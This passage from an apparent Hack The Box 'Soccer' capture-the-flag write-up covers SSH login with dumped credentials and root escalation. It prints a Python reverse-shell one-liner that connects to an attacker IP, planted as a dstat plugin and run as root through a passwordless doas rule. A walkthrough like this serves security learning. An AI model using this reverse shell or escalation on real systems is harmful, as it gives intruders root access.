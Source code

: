 
Dump data .

We will get credentials in plain text for player.

## PRIVILLEGE ESCALATION \[ROOT]

We got the ssh credentials using the sql injection in previous section let's login and find a way to escalate our privileges to root.

> We have credentials of player let's run sudo -l

```bash
player@soccer:~$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
player@soccer:~$ 

```

Let's run linpeas.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Nopass dstat</p></figcaption></figure>

{% hint style="info" %}
Doas is a privilege escalation program similar to sudo. It is designed to be as lightweight and simple as possible. It is the default privilege escalation program for OpenBSD but also available for other UNIX-like operating systems through the OpenDoas program.
{% endhint %}

This can be used to gain privileges' of the root. Dstat allows to run custom module. We can make a   module and run it with dstat.

```bash
player@soccer:/tmp/temp$ nano dstat_temp.py 
player@soccer:/tmp/temp$ cat dstat_temp.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",3999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
player@soccer:/tmp/temp$ 

```

Now copy this plugin to dstat directory. and don't forget to start a netcat listner.

```bash
player@soccer:/tmp/temp$ cp dstat_temp.py /usr/local/share/dstat/ 
player@soccer:/tmp/temp$ doas -u root /usr/bin/dstat  --temp
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

```


[^1]: WEBSERVER